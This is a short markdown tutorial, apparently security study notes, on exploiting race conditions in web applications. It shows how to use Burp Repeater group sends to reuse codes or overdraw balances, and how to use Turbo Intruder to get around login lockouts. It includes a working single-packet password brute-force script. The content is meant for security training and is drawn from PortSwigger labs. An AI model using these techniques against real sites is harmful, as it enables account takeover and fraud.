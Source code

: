 ## Submitting a form multiple times using Burp repeater
1. Create a group and duplicate tabs within it.
2. Click the drop-down arrow by the side of the Send button and select "Send group in parallel"
3. Click Send group. Repeater sends all of the requests from the grouped tabs.
Use-cases

> Using a redeem code multiple times

> Rating a product multiple times

> Withdrawing or transferring cash in excess of your account balance

> Reusing a single CAPTCHA solution

## Bypassing Rate limiting using Turbo Intruder

Turbo Intruder is suited to more complex attacks, such as ones that require multiple retries, staggered request timing, or an extremely large number of requests.

### Probe for clues
- 1. if you're temporarily locked out. after (x) number of concurent failed login attempts
- 2. Send the group of requests again in parallel.
- 3. Study the responses. Notice that although you have triggered the account lock, more than (x) requests received the normal Invalid username and password response.
- 4. Infer that if you're quick enough, you're able to submit more than three login attempts before the account lock is triggered.

### Proof-of-concept
1. Highlight the part you wanna brute-force (password=%s)
2. Right-click and select Extensions > Turbo Intruder > Send to turbo intruder.
3. From the drop-down menu, select the examples/race-single-packet-attack.py template
4. In the Python editor, edit the template so that your attack queues the request once using each of the candidate passwords. For simplicity, you can copy the following example:

'

    def queueRequests(target, wordlists):
    
        # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=1,
                               engine=Engine.BURP2
                               )
        
        # assign the list of candidate passwords from your clipboard
        passwords = wordlists.clipboard
        
        # queue a login request using each password from the wordlist
        # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
        for password in passwords:
            engine.queue(target.req, password, gate='1')
        
        # once every request has been queued
        # invoke engine.openGate() to send all requests in the given gate simultaneously
        engine.openGate('1')
    
    
    def handleResponse(req, interesting):
        table.add(req)
        
 
[Multi-endpoint Race Conditions](https://www.youtube.com/watch?v=SvpxBM7s-G4).


[Single-endpoint Race Conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)

# Refrences
https://portswigger.net/web-security/race-conditions

https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local

https://sakurity.com/blog/2015/05/21/starbucks.html

https://github.com/TheHackerDev/race-the-web
